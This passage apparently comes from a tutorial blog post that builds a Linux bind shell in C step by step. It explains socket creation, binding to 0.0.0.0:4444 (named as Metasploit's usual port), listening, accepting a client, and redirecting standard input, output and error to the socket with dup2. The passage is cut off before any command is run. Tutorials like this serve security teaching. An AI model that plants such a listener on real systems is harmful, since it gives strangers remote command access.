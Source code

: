 {% sidenote The `socket()` function creates a socket, which is represented by a `File Descriptor` (abbreviated as `fd`) on Linux systems %}

```cpp
server_address.sin_family = AF_INET;
server_address.sin_addr.s_addr = INADDR_ANY;
server_address.sin_port = htons(4444);

// bind the socket to 0.0.0.0:4444
bind(server_socket_fd, (struct sockaddr *)&server_address, sizeof(server_address));

// set it as a passive socket that listens for connections
listen(server_socket_fd, 1);
```

Let's look at the code above: initially, a socket is created through the `socket` function, which returns a `File Descriptor`. The arguments `SOCK_STREAM` and `IPPROTO_TCP` allow for the creation of a `TCP` socket.

After that, you have to to specify the address and port number on which to bind the socket. In this case, I used `INADDR_ANY` (i.e. `0.0.0.0`) and the typical TCP port used by *Metasploit* (`4444`).

These variables are passed to the `bind` function, which performs the binding operation. However, if you were to run `ss -tnl` (or `netstat -plnt`), you wouldn't find the current socket yet.

The reason is that we have to execute the `listen` function first. Let's look at its [prototype](https://man7.org/linux/man-pages/man2/listen.2.html):

```cpp
#include <sys/socket.h>

int listen(int sockfd, int backlog);
```

It accepts 2 arguments:

1. the file descriptor of a TCP socket
2. *the maximum length to which the queue of pending connections for sockfd may grow* (ref: [man page](https://man7.org/linux/man-pages/man2/listen.2.html))

Before being able to receive data and execute commands, the socket has to accept a connection from incoming clients:

```cpp
int client_socket_fd, bytes_read, size_client_socket_struct;
struct sockaddr_in client_address;

// accept incoming connections
size_client_socket_struct = sizeof(struct sockaddr_in);
client_socket_fd = accept(server_socket_fd, (struct sockaddr *)&client_address, (socklen_t *)&size_client_socket_struct);
```

{% sidenote Accept a client connection and place its socket inside the variable `client_address` %}

```cpp
// redirect standard input/output/error to the socket
dup2(client_socket_fd, 0);
dup2(client_socket_fd, 1);
dup2(client_socket_fd, 2);
```
